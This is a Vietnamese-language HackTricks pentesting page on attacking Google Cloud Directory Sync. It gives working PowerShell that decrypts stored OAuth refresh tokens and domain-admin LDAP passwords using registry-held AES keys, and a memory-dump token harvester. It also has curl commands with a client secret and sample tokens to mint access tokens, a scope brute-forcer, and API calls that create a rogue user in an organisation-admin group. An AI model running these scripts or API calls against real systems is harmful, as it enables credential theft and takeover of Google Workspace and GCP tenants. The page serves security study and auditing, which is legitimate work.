

# GCDS - Google Cloud Directory Sync

{{#include ../../../banners/hacktricks-training.md}}

## Thông tin cơ bản

Google Cloud Directory Sync (GCDS) đồng bộ dữ liệu thư mục như người dùng và nhóm từ LDAP hoặc Active Directory vào Google Workspace.<sup>[[1]](#references)</sup>

Quá trình thiết lập sử dụng quyền ủy quyền OAuth của super-admin Google Workspace và một tài khoản LDAP có quyền đọc thư mục.<sup>[[2]](#references)[[3]](#references)</sup> Vì vậy, máy chủ chạy GCDS có thể chứa thông tin cấu hình có giá trị cao.

> [!NOTE]
> Để thực hiện **MitM** với binary **`config-manager.exe`**, chỉ cần thêm dòng sau vào tệp `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> [**WinPEAS**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) có tích hợp kiểm tra GCDS để phát hiện quá trình cài đặt, đọc các tệp cấu hình gần đây, đồng thời thu thập các trường thông tin xác thực đã mã hóa và giá trị registry liên quan đến mã hóa.<sup>[[6]](#references)</sup>

Với Active Directory, GCDS chỉ hỗ trợ một số thao tác mật khẩu hạn chế; Google hướng dẫn sử dụng Password Sync như một giải pháp riêng để đồng bộ mật khẩu AD và Google. Khi sử dụng SSO, GCDS tạo mật khẩu ngẫu nhiên trong quá trình đồng bộ.<sup>[[1]](#references)</sup>

<figure><figcaption></figcaption></figure>

### GCDS - Token trên đĩa và thông tin xác thực AD

GUI `config-manager.exe` lưu cài đặt đồng bộ trong các tệp cấu hình XML. Google ghi nhận `Untitled-1.xml` là tên tệp mặc định trong thư mục hồ sơ của người dùng GCDS trên Windows (và `homedir` trên Linux); cấu hình cũng có thể được lưu với tên và vị trí khác.<sup>[[4]](#references)</sup> Các bí mật về mật khẩu và OAuth token trong những tệp này được mã hóa, vì vậy cần xem cấu hình bị lộ là thông tin nhạy cảm.<sup>[[5]](#references)</sup>

Trên Windows, hãy bắt đầu từ **`C:\Program Files\Google Cloud Directory Sync`** và kiểm tra **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** để tìm giá trị **`open.recent`**, chứa đường dẫn đến các tệp XML đã mở gần đây.<sup>[[6]](#references)</sup>

Thông tin đáng chú ý nhất bên trong tệp là:

```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```

Trên các phiên bản GCDS được kiểm tra cho trang này, refresh token và mật khẩu LDAP sử dụng **AES-CBC** với key và IV được tạo ra, lưu dưới dạng giá trị Base64 trong **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`**, tại **`/Encryption/Policy/V2.iv`** và **`/Encryption/Policy/V2.key`**. Check WinPEAS hiện tại đọc các giá trị này và danh sách file gần đây được mô tả ở trên.<sup>[[6]](#references)</sup>

<details>

<summary>Script PowerShell để giải mã refresh token và mật khẩu</summary>

```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
    $regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
    if (-not $regKey) {
        Throw "Registry key not found: HKCU\$regPath"
    }
}
catch {
    Write-Error "Failed to open registry key: $_"
    exit
}

# Get Base64-encoded IV and Key from the registry
try {
    $ivBase64 = $regKey.GetValue($ivKeyName)
    $ivBase64 = $ivBase64 -replace '/', ''
    $ivBase64 = $ivBase64 -replace '\\', '/'
    if (-not $ivBase64) {
        Throw "IV not found in registry"
    }
    $keyBase64 = $regKey.GetValue($keyKeyName)
    $keyBase64 = $keyBase64 -replace '/', ''
    $keyBase64 = $keyBase64 -replace '\\', '/'
    if (-not $keyBase64) {
        Throw "Key not found in registry"
    }
}
catch {
    Write-Error "Failed to read registry values: $_"
    exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aes.KeySize = 256
    $aes.BlockSize = 128
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes

    $decryptor = $aes.CreateDecryptor()
    $memoryStream = New-Object System.IO.MemoryStream
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
    $cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
    $cryptoStream.FlushFinalBlock()
    $plaintextBytes = $memoryStream.ToArray()

    $cryptoStream.Close()
    $memoryStream.Close()

    return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```

</details>

> [!NOTE]
> Google tài liệu hóa `upgrade-config -exportkeys` và `-importkeys` để chuyển tệp khóa mã hóa và cấu hình XML giữa các máy.<sup>[[7]](#references)</sup> Nếu cần xác nhận tên tùy chọn của bản đã cài đặt, hãy kiểm tra **`DirSync.jar`** để tìm `exportkeys` hoặc chạy `upgrade-config -help`.

Thay vì dùng script PowerShell, hãy chạy **`C:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** với `-exportkeys` để xuất dữ liệu khóa mã hóa. Một số bản hiển thị khóa và IV dưới dạng hex; hãy xem phần trợ giúp của công cụ đã cài đặt để biết chính xác định dạng đầu ra, sau đó dùng chúng với AES/CBC (ví dụ: trong CyberChef) để giải mã các giá trị đã thu thập.

### GCDS - Dumping token từ bộ nhớ

Tương tự như với GCPW, dump bộ nhớ của tiến trình `config-manager.exe` (GCDS GUI) có thể làm lộ refresh token và access token nếu chúng đã được tạo. Thông tin xác thực AD đã cấu hình cũng có thể hiện diện.

<details>

<summary>Dump các tiến trình config-manager.exe và tìm token</summary>

```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
    "ya29\.[a-zA-Z0-9_\.\-]{50,}",
    "1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
    New-Item -Path $dumpFolder -ItemType Directory
}

# Get all config-manager process IDs
$configManagerProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each config-manager process
foreach ($processId in $configManagerProcesses) {
    Write-Output "Dumping process with PID: $processId"
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\config-manager_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
    $dumpFile = $_.FullName
    $baseName = $_.BaseName
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

    Write-Output "Extracting strings from $dumpFile"
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
    & $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

    $outputFiles = @($asciiStringsFile, $unicodeStringsFile)

    foreach ($file in $outputFiles) {
        foreach ($regex in $tokenRegexes) {

            $matches = Select-String -Path $file -Pattern $regex -AllMatches

            $uniqueMatches = @{}

            foreach ($matchInfo in $matches) {
                foreach ($match in $matchInfo.Matches) {
                    $matchValue = $match.Value
                    if (-not $uniqueMatches.ContainsKey($matchValue)) {
                        $uniqueMatches[$matchValue] = @{
                            LineNumber = $matchInfo.LineNumber
                            LineText   = $matchInfo.Line.Trim()
                            FilePath   = $matchInfo.Path
                        }
                    }
                }
            }

            foreach ($matchValue in $uniqueMatches.Keys) {
                $info = $uniqueMatches[$matchValue]
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
            }
        }

        Write-Output ""
    }
}

Remove-Item -Path $dumpFolder -Recurse -Force
```

</details>

### GCDS - Tạo access token từ refresh token

Một refresh token hợp lệ có thể được đổi lấy access token bằng thông tin xác thực OAuth client đã cấp token đó. Endpoint token hiện tại của Google là `https://oauth2.googleapis.com/token`, và luồng refresh sử dụng `grant_type=refresh_token`.<sup>[[8]](#references)</sup>

```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://oauth2.googleapis.com/token
```

### GCDS - Scopes

> [!NOTE]
> Refresh token được ràng buộc với OAuth client/user grant. Access token mới chỉ có thể yêu cầu các scope nằm trong quyền ủy quyền ban đầu.<sup>[[9]](#references)</sup>
>
> Refresh token không tự động hợp lệ với mọi OAuth client.

Dùng danh mục OAuth scope của Google để lập danh sách ứng viên, sau đó kiểm tra những scope nào mà một grant cụ thể có thể nhận được; kết quả phụ thuộc vào grant và client.<sup>[[9]](#references)[[10]](#references)</sup>

<details>

<summary>Script Bash để brute-force scope</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
     --data "scope=$scope" \
     https://oauth2.googleapis.com/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

Và đây là kết quả tôi nhận được tại thời điểm viết bài:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Tạo người dùng và thêm người dùng đó vào nhóm `gcp-organization-admins` để thử leo thang trong GCP

Các yêu cầu sau sử dụng Directory API để tạo người dùng và thêm người dùng đó vào một nhóm. Phương thức `users.insert` yêu cầu scope `admin.directory.user`; `members.insert` yêu cầu một group scope, còn vai trò `OWNER` cấp quyền quản lý nhóm nhưng bản thân người dùng phải là thành viên của nhóm đó.<sup>[[11]](#references)[[12]](#references)[[13]](#references)</sup>

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'

# You could also change the password of a user for example
```

> [!CAUTION]
> Grant mẫu không tự động cấp quyền Super Admin cho người dùng được tạo. Directory API ghi rõ việc nâng cấp lên super admin là thao tác `users.makeAdmin` riêng biệt, chỉ quản trị viên cấp cao hiện tại mới có thể thực hiện.<sup>[[14]](#references)</sup> Việc một token cụ thể có thể gọi thao tác này hay không vẫn phụ thuộc vào các phạm vi được cấp và quyền của tài khoản.

## References

- [1] [Sắp xếp dữ liệu LDAP](https://knowledge.workspace.google.com/admin/users/organize-ldap-data)
- [2] [Yêu cầu hệ thống GCDS](https://knowledge.workspace.google.com/admin/users/gcds-system-requirements)
- [3] [Ủy quyền cho Tài khoản Google của bạn](https://knowledge.workspace.google.com/admin/users/authorize-your-google-account)
- [4] [Tôi cần biết thông tin GCDS nào trước khi liên hệ bộ phận hỗ trợ?](https://knowledge.workspace.google.com/admin/users/what-gcds-information-do-i-need-before-contacting-support)
- [5] [Làm việc với tệp cấu hình](https://knowledge.workspace.google.com/admin/users/work-with-configuration-files)
- [6] [WinPEAS GCDSInfo.cs](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/winPEAS/Info/CloudInfo/GCDSInfo.cs)
- [7] [Câu hỏi thường gặp về GCDS](https://knowledge.workspace.google.com/admin/users/gcds-faq)
- [8] [Sử dụng OAuth 2.0 cho ứng dụng máy chủ web](https://developers.google.com/identity/protocols/oauth2/web-server)
- [9] [Tài liệu tham khảo về Google OpenID Connect API](https://developers.google.com/identity/openid-connect/reference)
- [10] [Phạm vi OAuth 2.0 cho Google APIs](https://developers.google.com/identity/protocols/oauth2/scopes)
- [11] [Phương thức: users.insert](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users/insert)
- [12] [Phương thức: members.insert](https://developers.google.com/workspace/admin/directory/reference/rest/v1/members/insert)
- [13] [Tài nguyên REST: members](https://developers.google.com/workspace/admin/directory/reference/rest/v1/members)
- [14] [Quản lý tài khoản người dùng](https://developers.google.com/workspace/admin/directory/v1/guides/manage-users)
{{#include ../../../banners/hacktricks-training.md}}
